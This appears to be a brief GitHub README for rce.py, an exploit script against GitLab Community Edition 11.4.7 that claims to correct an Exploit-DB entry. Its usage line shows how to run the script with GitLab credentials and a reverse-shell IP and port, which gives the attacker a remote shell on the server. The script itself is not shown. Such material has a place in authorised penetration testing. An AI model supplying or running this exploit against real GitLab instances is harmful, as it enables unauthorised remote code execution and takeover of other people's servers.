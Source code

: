 # Gitlab Community Edition 11.4.7 RCE

There is a minor mistake in https://www.exploit-db.com/exploits/49334

Now, You can use rce.py to execute rce.

## Usage 

python3 rce.py -u Username -p Password -g http://<gitlab_url> -l <Reverse_Shell_IP> -P <Reverse_Shell_Port>

Note: check gitlab port in script if your testing environment is not hosted on default port(5080).
